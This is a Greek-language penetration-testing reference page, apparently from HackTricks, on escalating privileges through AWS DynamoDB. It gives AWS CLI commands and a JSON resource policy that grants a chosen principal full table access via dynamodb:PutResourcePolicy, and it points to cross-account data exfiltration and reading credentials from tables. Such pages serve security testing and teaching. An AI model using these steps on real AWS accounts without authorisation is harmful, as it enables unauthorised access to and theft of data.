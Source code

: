 # AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

Για περισσότερες πληροφορίες σχετικά με το dynamodb, ελέγξτε:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, και προαιρετικά `dynamodb:GetResourcePolicy`

Από τον Μάρτιο του 2024, η AWS προσφέρει *πολιτικές βασισμένες σε πόρους* για το DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

Έτσι, αν έχετε το `dynamodb:PutResourcePolicy` για έναν πίνακα, μπορείτε απλά να παραχωρήσετε στον εαυτό σας ή σε οποιονδήποτε άλλο κύριο πλήρη πρόσβαση στον πίνακα.

Η παραχώρηση του `dynamodb:PutResourcePolicy` σε έναν τυχαίο κύριο συμβαίνει συχνά κατά λάθος, αν οι διαχειριστές νομίζουν ότι η παραχώρηση του `dynamodb:Put*` θα επιτρέψει μόνο στον κύριο να προσθέσει στοιχεία στη βάση δεδομένων - ή αν παραχώρησαν αυτό το σύνολο δικαιωμάτων πριν από τον Μάρτιο του 2024...

Ιδανικά, έχετε επίσης το `dynamodb:GetResourcePolicy`, ώστε να μην αντικαταστήσετε άλλες δυνητικά ζωτικές άδειες, αλλά μόνο να εισάγετε τις πρόσθετες άδειες που χρειάζεστε:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Αν δεν μπορείτε να ανακτήσετε την τρέχουσα πολιτική, απλώς χρησιμοποιήστε αυτήν που παρέχει πλήρη πρόσβαση στον πίνακα στον κύριο σας:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Αν χρειάζεστε να το προσαρμόσετε, εδώ είναι μια λίστα με όλες τις δυνατές ενέργειες DynamoDB: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). Και εδώ είναι μια λίστα με όλες τις ενέργειες που μπορούν να επιτραπούν μέσω μιας πολιτικής βασισμένης σε πόρους *ΚΑΙ ποιες από αυτές μπορούν να χρησιμοποιηθούν διασυνοριακά (σκεφτείτε την εξαγωγή δεδομένων!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Τώρα, με το έγγραφο πολιτικής `policy.json` έτοιμο, βάλτε την πολιτική πόρου:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Τώρα, θα πρέπει να έχετε τις άδειες που χρειάζεστε.

### Post Exploitation

Όσο γνωρίζω, **δεν υπάρχει άλλος άμεσος τρόπος για να κλιμακώσετε τις άδειες στο AWS απλά με το να έχετε κάποιες άδειες `dynamodb`**. Μπορείτε να **διαβάσετε ευαίσθητες** πληροφορίες από τους πίνακες (οι οποίες θα μπορούσαν να περιέχουν διαπιστευτήρια AWS) και **να γράψετε πληροφορίες στους πίνακες** (οι οποίες θα μπορούσαν να προκαλέσουν άλλες ευπάθειες, όπως οι επιθέσεις κώδικα lambda...) αλλά όλες αυτές οι επιλογές έχουν ήδη ληφθεί υπόψη στη **σελίδα Post Exploitation του DynamoDB**:

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: Διαβάστε δεδομένα εκμεταλλευόμενοι τα data Streams

{{#include ../../../banners/hacktricks-training.md}}
